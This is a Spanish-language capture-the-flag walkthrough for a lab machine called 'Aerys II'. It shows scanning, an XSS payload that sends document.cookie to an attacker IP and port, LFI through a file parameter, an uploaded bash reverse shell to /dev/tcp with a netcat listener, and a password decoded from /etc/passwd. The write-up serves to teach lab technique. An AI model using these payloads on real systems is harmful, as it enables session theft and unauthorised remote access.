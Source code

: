 # Reto 4 - Aerys II

Herramientas utilizadas:
- nmap
- gobuster
- base64
- editthiscookie

<p align="center"> <img src="../../img/reto4-1.png" /> </p>

Este reto consiste en aplicar técnicas de hacking para encontrar tres banderas en la máquina víctima. Luego de identificar el host procedemos a utilizar la herramienta nmap para determinar los servicios y versiones que corren por los puertos que tiene abiertos la máquina víctima.

```
nmap <ip_mv> -sCV -Pn -p-
```
<p align="center"> <img src="../../img/reto4-2.png" /> </p>

Utilizamos la herramienta ```gobuster``` para realizar una búsqueda de archivos y directorios de interés en la web.
```
gobuster dir -u http://ip_mv -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x .js,.txt,.php
```
```
index.php
index.html
test.php
comentarios.php
comments.txt
directory
```
Accedemos al **index.php** y nos muestra el siguiente contenido de la web:

<p align="center"> <img src="../../img/reto4-3.png" /> </p>

Accedemos al **comentarios.php** y nos muestra el siguiente contenido de la web:

<p align="center"> <img src="../../img/reto4-4.png" /> </p>

Nótese que en **comentarios.php** se nos proporciona una url a la que se redirecciona si hacemos click en **Jardin Real**. Tras un análisis realizado se encontró que la web era vulnerable a XSS, por tanto se procedió a explotar la vulnerabilidad.
```
#Enviar en el comentario
<script>document.write('<img src="http://IP:PORT/'+document.cookie+'"/> ')</script>
```
```
#Ponerse en escucha
python3 -m http.server 80
```
```
#Cookie encontrada
user=Unbowed,Unbent,Unbroken
```
Agremamos la url que se nos proporcionó al **/etc/hosts** y accedemos a la url

<p align="center"> <img src="../../img/reto4-5.png" /> </p>

Como podemos observar, no tenemos permisos para acceder al contenido. Sin embargo, estableciendo la cookie que hemos encontrado y refrescando la página, obtenemos la primera flag:

<p align="center"> <img src="../../img/reto4-6.png" /> </p>

**Primera flag:** ```flag{j4rd1n-Alc4z4r}```

Observamos una nueva url, la añadimos a nuestro fichero /etc/hosts y la visitamos.

<p align="center"> <img src="../../img/reto4-7.png" /> </p>

Al solicitar la versión en español de la página, vemos un mensaje curioso. En este mensaje es importante destacar: 
- Las iniciales LFI en la conversación, que parecen indicar el camino hacia una vulnerabilidad de este tipo (Local File Inclusion).
- Los nombres de los ficheros que debemos acceder: flag.txt y access.txt.
- La palabra clave **file**.

Probamos directamente con el fichero **flag.txt** (file=flag.txt) y obtenemos la segunda flag del reto:

<p align="center"> <img src="../../img/reto4-8.png" /> </p>

**Segunda flag:** ```flag{D0n-P3dr0}```

Probamos luego con el fichero **access.txt** (file=access.txt) y obtenemos otra url con unas credenciales. Agregamos el dominio al **/etc/hosts** y accedemos a este. Al acceder a la url se nos mostró un panel de login, introducimos las credenciales y listo, nos lleva hacia un formulario para subir ficheros.:

<p align="center"> <img src="../../img/reto4-9.png" /> </p>

Se especifica que solo secret.sh funcionara de forma correcta. Por lo tanto, lo que hacemos es subir un fichero .sh con un codigo bash que nos permita entablarnos una reverse shell y accedemos a él a través del parámetro file en el index.php del **dominio don-pedro.doran.got**

<p align="center"> <img src="../../img/reto4-10.png" /> </p>

```
#Fichero secret.sh
bash -i >& /dev/tcp/ip_mipc/puerto 0>&1
```
```
#Escuchar con netcat
nc -nlvp 
```
```
#Listar la tercera flag del reto
cat /home/www-data/flag.txt
flag{Cu4rto-R34L-4lT0}
```
Dentro de la máquina, listamos el contenido del **/etc/passwd** y encontramos al usuario **dorian** con su contraseña codificada en base64.
```
doran:x:1001:1001:,,,,RDByNG4yMDI0Kgo=:/home/doran:/bin/bash
```
```
#Decodificar contraseña
echo "RDByNG4yMDI0Kgo=" | base64 -d
```
```
doran
D0r4n2024*
```

Accedemos por ssh como usuario doran y estamos dentro. En este punto tenemos 2 ficheros, **flag.txt** y **reto-final.txt**. No podemos obtener la flag, asi que revisamos el **reto-final.txt** el cual nos pide un nombre. 

<p align="center"> <img src="../../img/reto4-11.png" /> </p>

Googleamos ```Traición dorne Juego de Tronos``` y encontramos el nombre de **Ellaria** y se lo proporcionamos al fichero **reto-final.txt** lo cual nos proporciona la última flag del reto.

<p align="center"> <img src="../../img/reto4-12.png" /> </p>

**Última flag:** ```flag{0=;;;D0rn3;;;>}```
